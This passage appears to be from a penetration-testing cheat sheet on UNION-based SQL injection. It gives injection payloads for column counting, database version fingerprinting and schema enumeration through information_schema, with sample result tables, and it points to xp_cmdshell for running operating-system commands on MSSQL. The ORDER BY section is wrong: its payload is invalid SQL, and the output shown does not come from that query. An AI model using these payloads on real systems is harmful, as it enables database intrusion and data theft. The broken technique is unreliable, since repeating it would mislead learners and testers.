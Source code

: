 ### 2.5 ORDER BY Instead of Adding SELECT Statements
Another way we can perform UNION injection to find the columns returned from the original table, is to use order by which will add columns for each number in the table:
```
' UNION ORDER BY 3; #
```
This will return 3 numbered columns if the UNION is successful:
| ProductName | ProductID | OrderID |
|----|----|----|
| Socks | 12543 | 8756|
| Football | 25631 | 2953 |
| Gloves | 52316| 1235 |
| 1 | 2 | 3 |

### 3. Find Type and Version of DBMS Running
SQL DBMS' all have deviations in syntax, running commands that are unique to each flavour will quickly distinguish which DBMS is running the application. Error messages can also be helpful for determining which DBMS is running in the backend.
```
' UNION SELECT null, version(), null; #
' UNION SELECT null, @@version, null; #
```
| ProductName | ProductID | OrderID |
|----|----|----|
| Socks | 12543 | 8756|
| Football | 25631 | 2953 |
| Gloves | 52316| 1235 |
|  | MySQL 4.1.14 |  |
### 4. Query privaleged information
Use pentest monkey's cheat sheet to help determine syntax for dropping the database table schemas:
https://pentestmonkey.net/category/cheat-sheet/sql-injection

MSSQL is slightly different, but i would avoid union injection all together with MSSQL as you can just run `xp_cmdshell` to run commands directly on the operating system. More on this further down the document.
```
' UNION SELECT TABLE_NAME, TABLE_SCHEMA, null FROM information_schema.tables; #
```
| ProductName | ProductID | OrderID |
|----|----|----|
| Socks | 12543 | 8756|
| Football | 25631 | 2953 |
| Gloves | 52316| 1235 |
| ALL_PLUGINS | information_schema |  |
|COLUMNS|information_schema||
|...|...|...|
|UserInformation|information_schema||
|...|...|...|
